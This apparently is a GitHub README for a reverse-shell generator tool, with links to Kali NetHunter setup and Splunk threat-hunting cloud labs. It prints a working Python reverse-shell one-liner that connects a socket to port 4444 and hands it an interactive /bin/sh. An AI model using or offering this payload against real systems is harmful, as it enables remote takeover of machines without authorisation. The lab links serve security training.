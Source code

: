 # Reverse-Shell-Generator

<div align="center">
</div>

![3](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExb2RmbnpoZ2Y5c3MxdnU1ajk5ZGU5MDN3YzNhaHR4Z3o2ZGN6aGVucCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fdOA43sHFE6Pu/giphy.gif)

</div>

## Link
```
https://devvj-1.github.io/Reverse-Shell-Generator/
```

## 🔧 Linux  Troubleshooting commands 
```
https://chatgpt.com/share/74ea2fe2-6b6d-400e-bfee-1a434763a162
```

## Python payload 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Screenshot 2024-06-08 015037](https://github.com/DevVj-1/Reverse-Shell-Generator/assets/106962581/13b0947b-d1bd-43af-bb1b-b9a2fc6063e2)

## Setup rootless kali Nethunter on Android

https://youtu.be/fqaSEbaYkJQ?si=b8u3mB2aq8Y4C9Hk

Some how i discovered a cyber security course hands-on cloud labs. so i share it here too! with you guys :)
(Just randomly discovered links while Google dorking)

## Splunk labs

""

👏🏻 I really grateful and appreciative to the creator of this course (Sam Boney, Sir) for creating this cloud hands-on labs and other informative content. 💡

In exchange for what we learn from this resource. We should subscribe ❤️ to his YouTube channel (https://www.youtube.com/channel/UCC2OBhIt1sHE4odV05RYP1w)

""
* all Splunk labs: https://samsclass.info/50/50_S19.shtml#quiz

* Boss of the SOC v1: Threat Hunting with Splunk:
  https://samsclass.info/50/proj/botsv1.htm
* Proj 1x: BOSS OF THE SOC: Finding Attack Servers:
  https://samsclass.info/50/proj/p1xbots.htm

## other labs

* https://attack.samsclass.info/

## CBL
* https://samsclass.info/129S/proj/CBL.htm

## CNIT
* https://samsclass.info/129S/proj/p10token.htm
